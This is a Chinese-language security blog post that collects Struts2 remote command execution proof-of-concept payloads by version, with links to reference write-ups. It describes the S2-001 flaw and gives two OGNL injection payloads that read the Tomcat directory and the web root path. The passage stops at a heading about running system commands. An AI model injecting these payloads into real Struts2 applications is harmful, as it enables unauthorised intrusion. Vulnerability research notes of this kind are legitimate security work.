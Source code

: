 ```yaml
---
title: Struts2命令执行各版本记录
date: 2017-01-13 16:57:47
tags: 
 - vul
categories: notes
---
```


#### 概述
最近在写Struts2的一些PoC，记录一下各个版本的PoC方便到时候查阅。先提一下参考的前辈们的网址，感谢🙏



- [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)
- [http://www.cnblogs.com/LittleHann/p/4606891.html](http://www.cnblogs.com/LittleHann/p/4606891.html)
- [https://cwiki.apache.org/confluence/display/WW/S2-xxx](https://cwiki.apache.org/confluence/display/WW/S2-xxx)
- http://blog.nsfocus.net/tech/%E7%83%AD%E7%82%B9%E8%B7%9F%E8%B8%AA/2016/06/16/Struts2-S2-037(CVE-2016-4438)%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.html
- https://cwiki.apache.org/confluence/display/WW/S2-009

## Struts2命令执行集合
下文不是具体的分析文，能力有限，仅记录一下以做将来复习查用。
过段时间会将所有的漏洞环境上传到github上，环境来源大部分为我偶像[rickgray](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)博客上共享的以及官网上下的对应版本的示例环境。
update:2017/1/16 [环境地址](https://github.com/0kami/Struts2Environment/)

#### Struts2 S2-001

    影响版本：2.0.0 - 2.0.8
    具体详情：https://struts.apache.org/docs/s2-001.html


> 该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value} 进行解析，然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 %{value} 对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行

上文引用[rickgray](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)的描述。
###### 构造PoC
######## 获取tomcat执行路径

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```
######## 获取web根目录

```
%{##req=@org.apache.struts2.ServletActionContext@getRequest(),##response=##context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),##response.println(##req.getRealPath('/')),##response.flush(),##response.close()}
```
######## 执行系统命令
